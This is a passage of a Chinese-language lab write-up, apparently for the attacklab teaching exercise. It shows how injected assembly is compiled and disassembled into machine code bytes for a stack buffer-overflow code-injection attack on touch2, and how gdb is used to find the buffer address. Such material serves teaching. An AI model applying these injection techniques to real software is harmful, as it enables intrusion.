 

然后把攻击指令编译成机器码, 再objdump -d生成的文件就可以间接地看到最终的机器码。 

```
gcc -c 2.s
objdump -d 2.o > 2.d  
```



![1618567353377](78.png)

得到16进制机器码

```
48 c7 c7 fa 97 b9 59
68 c0 17 40 00 
c3
```



这次我们需要在输入的东西中加入写入的代码，不能直接让buffer上的地址换成touch2的地址，而应该转入到我们所写的代码的地址，如果要把代码写在开头，我们需要知道buffer起始地址

在getbuf下断点，然后查看rsp寄存器的值就可以，rsp寄存器是指向栈区的寄存器



```
b *0x4017A8
r -q
```


